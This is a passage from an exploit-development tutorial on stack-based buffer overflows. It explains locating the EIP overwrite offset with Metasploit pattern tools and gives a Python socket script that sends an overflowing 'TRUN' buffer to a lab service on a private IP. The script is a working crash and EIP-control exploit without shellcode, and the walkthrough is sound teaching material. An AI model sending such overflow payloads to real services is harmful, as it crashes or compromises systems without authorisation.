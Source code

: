 

## Controlling EIP

As I explained in the [Stack Based Buffer Overflows Part 1
](https://memn0ps.github.io/2020/01/25/Stack-Based-Buffer-Overflows-Part-1.html)

To control EIP, we need to find at which offset the EIP register is overwritten. We can use Metasploit’s pattern create to create a pattern of 3000 bytes and then locating the offset. Since the crash, a 3000 byte buffer crashes the program.

If you remember, we can now locate the offset, which is at 2003. This means that after 2003 bytes the EIP register the overwritten.



![EIP_Overwrite.png](/images/2020-10-12-Stack-Based-Buffer-Overflows-DEP-Part-4/3d2300c09b4442f9828f48ed6a6cba80.png)


Here is the exploit:

```python
import socket

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999


payload = "A" * 2003
payload += "B" * 4
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")

```
